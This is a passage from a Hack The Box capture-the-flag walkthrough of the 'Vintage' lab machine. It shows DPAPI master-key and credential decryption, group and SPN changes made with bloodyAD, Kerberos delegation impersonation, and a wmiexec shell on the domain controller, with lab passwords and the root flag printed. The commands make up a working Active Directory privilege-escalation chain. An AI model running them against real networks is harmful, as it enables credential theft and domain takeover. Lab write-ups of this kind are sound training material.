    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-          6/7/2024   1:17 PM                S-1-5-21-4024337825-2033394866-2055507597-1115
```

Inside this directory, we found 2 potential **Master keys** which are `4dbf04d8-529b-4b4c-b4ae-8e875e4fe847` and `4dbf04d8-529b-4b4c-b4ae-8e875e4fe847`, which we will download locally for decryption.

```PowerShell
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> dir -h


    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs-          6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs-          6/7/2024   1:17 PM            904 BK-VINTAGE
-a-hs-          6/7/2024   1:17 PM             24 Preferred

```

The first step involves decrypting the **Master Key** using the `impacket-dpapi` tool. The Master Key is encrypted and tied to the user's `SID` and password.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

Once the Master Key is decrypted, it can be used to decrypt stored credentials. This command decrypts the credential file using the extracted Master Key.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```

`Bloodhound` reveals that we can add ourselves to the `DELEGATEDAMINS` which from its name seems to be a good target. 



Now we will add `SVC_SQL`to this group using `bloodyAD`, as we have `GenericWrite` on it.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL" 

[+] SVC_SQL added to DELEGATEDADMINS
```


```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName  -v "HTTP/skibbidy"
[+] SVC_SQL's servicePrincipalName has been updated
```

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ getTGT.py -dc-ip 10.10.11.45 vintage/svc_sql:Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_sql.ccache
```

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ export KRB5CCNAME=svc_sql.ccache
```

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ getST.py -spn 'HTTP/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating L.BIANCHI_ADM
/home/ayoub/.local/bin/getST.py:321: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/ayoub/.local/bin/getST.py:408: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] 	Requesting S4U2self
/home/ayoub/.local/bin/getST.py:532: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/ayoub/.local/bin/getST.py:584: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] 	Requesting S4U2Proxy
[*] Saving ticket in L.BIANCHI_ADM.ccache
```

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ export KRB5CCNAME=L.BIANCHI_ADM.ccache 
```

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ wmiexec.py -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whomai
'whomai' is not recognized as an internal or external command,
operable program or batch file.

C:\>whoami
vintage\l.bianchi_adm

C:\>cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is B8C0-0CD3

 Directory of C:\Users\Administrator\Desktop

11/14/2024  07:48 PM    <DIR>          .
06/08/2024  03:36 PM    <DIR>          ..
03/17/2025  12:02 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   5,729,939,456 bytes free

C:\Users\Administrator\Desktop>type root.txt
43fc4b204b904ddc0176ab7493ff5a21

```
